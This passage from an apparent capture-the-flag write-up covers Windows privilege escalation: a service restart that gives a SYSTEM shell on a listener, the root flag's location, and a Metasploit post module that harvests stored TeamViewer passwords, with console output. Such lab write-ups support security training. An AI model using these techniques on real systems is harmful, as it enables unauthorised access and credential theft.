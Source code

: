 Once you restart the service, this will trigger a SYSTEM shell on your listener.

![system_shell](images/system_shell.png)

## Root.txt

We find the root.txt flag in C:\Users\Administrator\Desktop

![system_flag](images/system_flag.png)

# Privilege Escalation #2

This version of TeamViewer is vulnerable to a credentials disclosure exploit, and we can use [this](https://www.rapid7.com/db/modules/post/windows/gather/credentials/teamviewer_passwords) metasploit module to exploit it.

Using metasploit, setup a meterpreter shell with a metasploit listener, using the python script to trigger it. Then set the post module.

```bash
msf5 exploit(multi/handler) > use teamviewer

Matching Modules
================

   #  Name                                                  Disclosure Date  Rank    Check  Description
   -  ----                                                  ---------------  ----    -----  -----------
   0  post/windows/gather/credentials/teamviewer_passwords                   normal  No     Windows Gather TeamViewer Passwords


[*] Using post/windows/gather/credentials/teamviewer_passwords
```
